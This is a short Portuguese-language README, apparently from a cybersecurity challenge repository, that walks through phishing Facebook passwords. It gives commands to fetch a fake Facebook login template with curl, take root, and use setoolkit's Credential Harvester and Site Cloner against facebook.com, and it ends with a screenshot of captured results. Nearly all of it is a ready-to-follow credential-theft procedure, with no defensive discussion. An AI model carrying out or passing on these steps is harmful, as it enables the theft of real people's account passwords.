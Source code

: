 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Inicie

- Crie um diretorio de nome tool no home mkdir /home/tool/
- Acesse este diretorio cd /home/tool/
- Baixe o login page do facebook com wget ou curl 
- curl https://raw.githubusercontent.com/percioandrade/cibersecurity-desafio-phishing/refs/heads/master/facebook_login_template.html > index.html
- Acesse o setoolkit e siga a sequencia de imagens abaixo:

### Configurando o Phishing no Kali Linux
- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados
![passwd](https://github.com/user-attachments/assets/50facc98-4cce-4446-a218-446d2593eea3)


